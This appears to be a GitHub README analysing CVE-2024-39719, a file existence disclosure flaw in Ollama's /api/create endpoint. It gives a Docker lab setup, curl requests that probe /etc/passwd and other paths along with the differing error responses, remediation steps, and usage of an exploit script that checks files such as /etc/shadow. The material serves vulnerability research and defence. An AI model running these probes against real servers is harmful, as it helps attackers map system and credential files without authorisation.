 # Ollama File Existence Disclosure Vulnerability (CVE-2024-39719) Analysis

[中文](README_CN.md)

## Vulnerability Overview

CVE-2024-39719 is a file existence disclosure vulnerability affecting Ollama versions 0.3.14 and earlier. This vulnerability allows attackers to detect the existence of specific files on the server through an API endpoint, potentially leading to information leakage.

**Release Date**: October 31, 2024

## Vulnerability Details

### Root Cause

The vulnerability exists in the `/api/create` endpoint of Ollama. When an attacker calls the `CreateModel` API with a path parameter, the server returns different error messages based on whether the path exists or not. This behavior allows an attacker to determine if a specific file or directory exists on the server by analyzing the error messages.

The core issue is that when handling user input, the system directly exposes file system errors to the client instead of properly hiding path existence information.

### Affected Versions

This vulnerability affects all versions of Ollama up to and including 0.3.14.

### Impact

While a file existence disclosure vulnerability may initially appear less severe, it can:

1. Serve as a preliminary step in more complex attacks, helping attackers gather server information
2. Be used to detect the presence of critical configuration files, certificates, or sensitive data files
3. Aid attackers in conducting more targeted attacks
4. Lead to information leakage in specific environments, such as confirming the existence of particular users or system characteristics

## Vulnerability Reproduction

### Environment Setup

1. Create a vulnerable Ollama environment using the following Docker Compose file:

```yaml
services:
  ollama:
    image: ollama/ollama:0.3.14
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

2. Start the service:
```bash
docker compose up -d
```

3. After the service starts, you can confirm that Ollama 0.3.14 is running by accessing `http://your-ip:11434/`.

### Reproduction Steps

#### 1. Testing Non-existent Files

Send a request using `curl` to attempt to access a non-existent file:

```bash
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/tmp/non-existing"}'
```

Response:
```json
{"error":"error reading modelfile: open /tmp/non-existing: no such file or directory"}
```

#### 2. Testing Existing Files

Test for an existing file, such as `/etc/passwd`:

```bash
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc/passwd"}'
```

Response:
```json
{"error":"no FROM line for the model was specified"}
```

By analyzing these different error messages, an attacker can determine whether a target path exists or not, gaining information about the server's file structure.
Note that the information returned by the server may vary depending on the version.

## Vulnerability Remediation

### Official Fix

Ollama has fixed this vulnerability in newer versions. The fixes include:

1. Standardizing error handling to avoid leaking file existence information
2. Implementing stricter validation and filtering of user-provided paths
3. Using more generic error messages that don't directly expose file system information

### Recommended Remediation Steps

1. **Upgrade Ollama**: The most effective solution is to upgrade to the latest version of Ollama.
2. **Access Control**: Restrict access to API endpoints, allowing only authorized users.
3. **Network Isolation**: When possible, deploy Ollama services in isolated networks to reduce external access.
4. **Monitoring**: Enhance monitoring of API calls, particularly focusing on detecting unusual access patterns to the `/api/create` endpoint.

## Usage of the Exploit Script

The provided Python script allows you to test if an Ollama server is vulnerable to CVE-2024-39719.

### Requirements
- Python 3.x
- Required packages: `requests`, `termcolor`

### Installation
```bash
pip install requests termcolor
```

### Usage
```bash
python CVE_2024_39719.py -u <ollama-server-url> [-f <file-to-check>]
```

### Options
- `-u, --url`: URL of the Ollama server (required)
- `-f, --file`: File to check for existence (defaults to "/etc/passwd")

### Examples
```bash
# Check if a server is vulnerable
python CVE_2024_39719.py -u http://your-ip:11434

# Check if a specific file exists
python CVE_2024_39719.py -u http://your-ip:11434 -f /etc/shadow
```

## References

- [CVE-2024-39719 in the National Vulnerability Database](https://nvd.nist.gov/)
- [Ollama GitHub Repository](https://github.com/ollama/ollama)
- [Ollama Security Advisories](https://github.com/ollama/ollama/security/advisories)

## Disclaimer

This script is provided for educational purposes and legitimate security testing only. Always ensure you have proper authorization before testing any system for vulnerabilities. Unauthorized testing may violate laws and regulations.